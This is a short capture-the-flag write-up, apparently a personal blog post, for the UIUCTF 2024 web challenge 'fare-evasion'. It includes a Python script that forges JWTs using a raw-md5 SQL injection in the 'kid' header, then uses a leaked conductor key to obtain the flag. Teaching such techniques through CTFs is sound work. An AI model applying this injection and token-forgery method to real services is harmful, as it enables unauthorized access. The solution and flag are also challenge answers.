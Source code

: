 ```yaml
---
layout: post
title:  "fare-evasion - UIUCTF 2024"
date:   2024-07-21 00:00:00 -0400
---
```


https://ctftime.org/event/2275

# fare-evasion (web)

Unusual sqli challenge

## Solution
The bug happens because of not calling `.hex()` on the result of the md5
So if we can find some hash with `'1=1` or something like that we can dump the whole db
Fortunately someone already wrote about that a decade ago:
https://cvk.posthaven.com/sql-injection-with-raw-md5-hashes

```python
#!/usr/bin/env python3
import requests
import jwt
import hashlib

REMOTE = "https://fare-evasion.chal.uiuc.tf/pay"

sqli = '129581926211651571912466741651878684928'

j = jwt.encode(
    {"type": "passenger"},
    key='a_boring_passenger_signing_key_?',
    algorithm="HS256",
    headers={"kid": sqli, "typ": "JWT"},
)
res = requests.post(REMOTE, cookies={'access_token': j})

ck = "conductor_key_873affdf8cc36a592ec790fc62973d55f4bf43b321bf1ccc0514063370356d5cddb4363b4786fd072d36a25e0ab60a78b8df01bd396c7a05cccbbb3733ae3f8e"

j = jwt.encode(
    {"type": "passenger"},
    key=ck,
    algorithm="HS256",
    headers={"kid": "conductor_key", "typ": "JWT"},
)

res = requests.post(REMOTE, cookies={'access_token': j})
print(f"DEBUGPRINT[2]: lab.py:28: res.text={res.text}")
```

## Flag
`uiuctf{sigpwny_does_not_condone_turnstile_hopping!}`

shafouz 2024/06/29
